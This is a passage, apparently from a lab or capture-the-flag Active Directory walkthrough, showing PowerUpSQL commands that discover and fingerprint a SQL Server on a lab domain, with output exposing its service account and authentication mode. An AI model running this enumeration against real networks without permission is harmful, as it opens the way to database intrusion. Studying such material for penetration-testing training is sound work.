 # target 3: sql server exploitation

this is a dev server that hosts critical database services. dev servers are used by engineers to build + test apps before moving them to production.

these environments usually contain valuable intellectual property (code) and have direct connections to production systems. let's look for more information the SQL Server setup. you can do this with `PowerUpSQL.ps1`.

```sh
PS C:\ad\tools\PowerUpSQL-master>Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

VERBOSE: Creating runspace pool and session states

VERBOSE: devsrv.nebula.cosmos.local,1433 : Connection Success.

VERBOSE: USER : Connection Failed.

VERBOSE: Closing the runspace pool

  

ComputerName                    Instance                         Status

------------                    --------                         ------

devsrv.nebula.cosmos.local      devsrv.nebula.cosmos.local,1433  Accessible

USER                             USER                            Not Accessible
```

```sh
PS C:\ad\tools\PowerUpSQL-master> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

VERBOSE: devsrv.nebula.cosmos.local,1433 : Connection Success.

  

ComputerName : devsrv.nebula.cosmos.local

Instance : DEVSRV

DomainName : nebula

ServiceProcessID : 2576

ServiceName : MSSQLSERVER

ServiceAccount : nebula\devsqladmin

AuthenticationMode : Windows and SQL Server Authentication

ForcedEncryption : 0

Clustered : No

SQLServerVersionNumber : 14.0.1000.169

SQLServerMajorVersion : 2017

SQLServerEdition : Developer Edition (64-bit)

SQLServerServicePack : RTM

```